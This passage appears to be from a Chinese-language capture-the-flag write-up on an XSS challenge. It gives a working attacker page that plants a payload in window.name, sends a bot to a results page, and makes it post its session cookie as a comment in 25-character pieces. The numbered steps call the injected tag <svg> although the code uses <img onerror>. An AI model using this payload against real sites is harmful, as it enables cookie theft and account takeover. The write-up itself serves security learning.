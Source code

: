 ![](./assets/name-injected.png)

这个测试表明，我们成功通过注入向页面上注入，并且执行脚本了。更好的消息是，这个脚本现在通过 `window.name` 注入，再也不受 25 字符长度和敏感字符的限制了。

#### 所以呢？

所以可以构造出用于实施攻击的第三方页面了！

```html
<html lang="en">
<body>
  <script>
    const offset = 0;
    const payload = `<img src=1 onerror="
        document.querySelector('[name=comment]').value = document.cookie.replace(/%/g,'/').substring(${offset},${offset}+25);
        document.querySelector('button.btn').click()
    " />`;
    window.name = payload;
    location.href = 'http://web/result';
  </script>
</body>
</html>
```

*最后的样子竟然如此简单*

接下来我们要做的，以及会发生的事情也就掐指可算：

1. 手动向成绩结算页面提交评论 `"+name+"`。
2. 提交上述攻击 HTML。
3. bot 先登录练习网站。
4. bot 访问我们的网站，我们将 `payload` 写到了 `window.name` 中，然后直接跳转至成绩结算页面。
5. 成绩结算页面中被注入了一行 `updateElement("#comment", "你留下的评论："+name+"");`。这行代码会将我们放在 `window.name` 中的 `<svg>` 标签原样写到页面正文中。
6. `<svg>` 标签的 `onload` 脚本执行。
   - 脚本首先获取 Cookie，**并将 `%` 替换为 `/`**（因为 `%` 是敏感字符），截取前 25 个字符，填入评论输入框中。
   - 然后模拟点击“提交”按钮提交评论。

